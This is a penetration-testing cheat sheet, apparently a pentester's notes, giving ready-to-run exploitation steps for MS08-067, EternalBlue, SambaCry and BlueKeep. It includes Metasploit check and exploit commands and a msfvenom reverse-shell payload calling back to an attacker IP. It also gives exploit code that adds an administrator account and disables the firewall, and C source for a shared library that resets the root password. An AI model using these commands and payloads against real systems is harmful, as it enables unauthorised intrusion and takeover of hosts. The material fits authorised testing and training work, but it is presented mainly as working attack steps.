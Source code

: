 # Low-Hanging Fruits




## net_api

**CVE-2008-4250, MS08-067**

Check:

```
$ sudo nmap -n -Pn -sV --script smb-vuln-ms08-067 10.10.13.37 -p139,445
Or
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:smb.txt
msf > check
```

Exploit:

```
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:smb.txt
msf > run
```




## EternalBlue

**CVE-2017-0144, MS17-010**



### MSF

Check:

```
$ sudo nmap -n -Pn -sV --script smb-vuln-ms17-010 10.10.13.37 -p139,445
Or
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > set RHOSTS file:smb.txt
msf > set THREADS 25
msf > run
```

Exploit:

```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > set RHOSTS file:smb.txt
msf > run
```



### Manually

* [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)
* [https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)

Send MSF payload and execute it with `send_and_execute.py`:

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev.exe
$ python send_and_execute.py 10.10.13.38 rev.exe
```

Or just execute commands on host with `zzz_exploit.py`:

```python
def smb_pwn(conn, arch):
	...
	service_exec(conn, r'cmd /c net user snovvcrash Passw0rd! /add')
	service_exec(conn, r'cmd /c net localgroup administrators snovvcrash /add')
	service_exec(conn, r'cmd /c netsh firewall set opmode disable')
```




## SambaCry

**CVE-2017-7494** (Samba 3.5.0 < 4.4.14/4.5.10/4.6.4)



### MSF

```
msf > use exploit/linux/samba/is_known_pipename
msf > set SMB::AlwaysEncrypt false
msf > set SMB::ProtocolVersion 1
msf > run
```



### Manually

* [https://github.com/opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)
* [https://github.com/joxeankoret/CVE-2017-7494](https://github.com/joxeankoret/CVE-2017-7494)

Compile `.so` SUID shared library:

{% code title="pwn.c" %}
```c
// gcc -shared -fPIC -o pwn.so pwn.c

 #include <stdio.h>
 #include <stdlib.h>

static void pwn() __attribute__((constructor));

void pwn() {
	setresuid(0,0,0);
	system("echo 'root:Passw0rd!'|chpasswd");
}
```
{% endcode %}

Get real share path on the target's filesystem:

```
$ rpcclient -U'%' -c'netsharegetinfo ShareName' 10.10.13.37
path:    /home/snovvcrash/sharename
```

Upload `pwn.so` to target and then run the exploit:

```
$ pip install virtualenv
$ virtualenv -p /usr/bin/python2.7
$ source venv/bin/activate.sh
$ pip install -r requirements.txt
$ . venv/bin/activate
$ ./exploit.py -t 10.10.13.37 -e pwn.so -s ShareName -r /home/snovvcrash/sharename/pwn.so -u anonymous -p ''
```




## BlueKeep

**CVE-2019-0708**

Check:

```
msf > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf > set RHOSTS file:rdp.txt
msf > set THREADS 25
msf > run
```

Exploit:

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf > set RHOSTS file:rdp.txt.txt
msf > run
```
